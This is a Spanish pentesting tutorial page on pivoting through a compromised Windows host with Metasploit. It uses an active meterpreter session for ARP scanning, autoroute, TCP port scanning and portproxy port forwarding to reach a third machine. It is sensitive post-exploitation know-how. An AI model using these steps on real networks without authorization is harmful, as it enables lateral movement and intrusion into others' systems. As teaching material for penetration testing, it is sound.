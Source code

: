 # 🪟 Windows

{% hint style="info" %}
El Pivoting solo se podrá hacer si el host tiene más de una interfaz de red (sin contar loopback)
{% endhint %}

Para hacer pivoting en entornos Linux, deberemos explotar la maquina que tiene acceso a ambas redes.

## Metasploit

{% hint style="warning" %}
Para hacer un pivoting desde metasploit, deberemos tener una meterpreter activa en el host windows
{% endhint %}

Una vez estamos con la meterpreter activa, y vemos que la maquina tiene varias redes, por lo que tendremos que hacer pivoting entre ellas. Para ello, ponemos la sesión activa en segundo plano (CTRL + Z)  y le ponemos la "y".&#x20;

Comprobamos que la sesión está en segundo plano y activa:

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Escaneo de hosts

Usamos el arp scanner integrado:

```bash
use windows/gather/arp_scanner
```

Le indicamos el rango de red a escanear y el id de la sesión:

```bash
set SESSION 1

set RHOSTS 192.168.1.0/24

run
```

Nos encuentra los siguientes equipos:

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Después deberemos de enrutar el trafico, para ello empleamos un modulo de metasploit:

```bash
use multi/manage/autoroute
```

Y lo configuramos:

```
set SESSION 1
```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Escaneo de puertos en un host

Para ello empleamos el siguiente modulo de metasploit:

```bash
use scanner/portscan/tcp
```

Lo configuramos:

{% hint style="info" %}
Por defecto el modulo hace un escaneo del puerto 1 al 10.000 (se puede modificar)
{% endhint %}

```bash
set RHOSTS 192.168.1.1
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

```
run
```

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Port Forwarding

Para el uso del port forwarding, haremos uso de un modulo de metasploit:

```bash
use windows/manage/portproxy

set CONNECT_ADDRESS 192.168.1.1    # IP maquina victima

set COONECT_PORT 80    # Puerto de la maquina victima

set LOCAL_ADDRESS 0.0.0.0   # IP atacante

set LOCAL_PORT  5000  # Puerto al que nos queremos traer el servicio en local

set SESSION 1    # ID de la sesion con la meterpreter
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Ahora, imaginad que estamos haciendo esto en esta red:

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

En el caso de que tengamos la meterpreter en la maquina windows, primero hacemos un escaneo de hosts en la red, después hacemos un escaneo de puertos al host y finalmente hacemos el port forwarding. En el port forwarding, imagina que la maquina linux, tiene el puerto 80 (web) abierto, y lo queremos ver, enumerar... lo que hacemos es pasarnos el puerto 80 de la linux a un puerto cualquiera de la windows con la ayuda de port forwarding y desde la kali (atacante) apuntamos a la ip de la windows (192.168.1.40) y al puerto que hayamos elegido, de esta manera podemos ver el puerto de la 3 maquina:

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
